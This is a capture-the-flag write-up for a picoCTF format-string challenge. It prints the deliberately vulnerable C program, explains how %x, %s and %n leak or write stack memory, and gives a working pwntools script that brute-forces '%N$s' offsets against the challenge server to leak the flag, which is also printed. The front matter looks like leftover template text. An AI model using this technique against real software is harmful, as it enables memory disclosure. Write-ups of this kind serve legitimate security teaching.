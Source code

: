 ```yaml
---
title: "Fessemisk eksempel writeup"
categories: Equinor_CTF
tags: rev
header:
    overlay_image: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
    overlay_filter: 0.5
    teaser: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
tagline: "Dette er et eksempel på en post med custom forfatter"
read_time: true
published: true
toc: true
author: Billy Rick
---
```


## Description
Story telling class 1/2  
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/123/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/123/vuln.c). And connect with it using:  
`nc saturn.picoctf.net PORT`

## Vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story); 
   printf("Here's a story - \n");
   printf(story); // Will print whatever we want, NOT GOOD!!
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

## What is a format string vulnerability?
[OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)  
[Exploiting format string - Stanford](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)  
[LiveOverflow - Format String Exploit bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4)  

In short the format string vulnerability lets us print and write information from the stack.

**OWASP extract:**   
> Below are some format parameters which can be used and their consequences:
> * ”%x” Read data from the stack
> * ”%s” Read character strings from the process’ memory
> * ”%n” Write an integer to locations in the process’ memory

**Example:**    
```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
    printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

## Solution 
In the vulnerable code, the flag is placed on the stack just under the input buffer: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];
```
We can send `%1$s` to the program to view the first parameter on the stack. We will use this to brute force the location of the flag and print it.

**Exploit:**  
```python
from pwn import *

host, port = "saturn.picoctf.net", 55904

# Create remote or local process based on CLI
def new_process():
    if args.LOCAL:
        return process("./vuln")
    else:
        return remote(host, port)


# Brute force location of flag on the stack
with context.quiet:
    for i in range(30):
        p = new_process()
        p.recvuntil(b">>")
        p.sendline("%" + str(i) + "$s")
        p.recvuntil("\n")
        out = p.recvall()
        try:
            flag = out.decode()
        except UnicodeDecodeError:
            pass
        if "CTF{" in flag:
            print(f"pico{flag}")
```
### Flag
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}`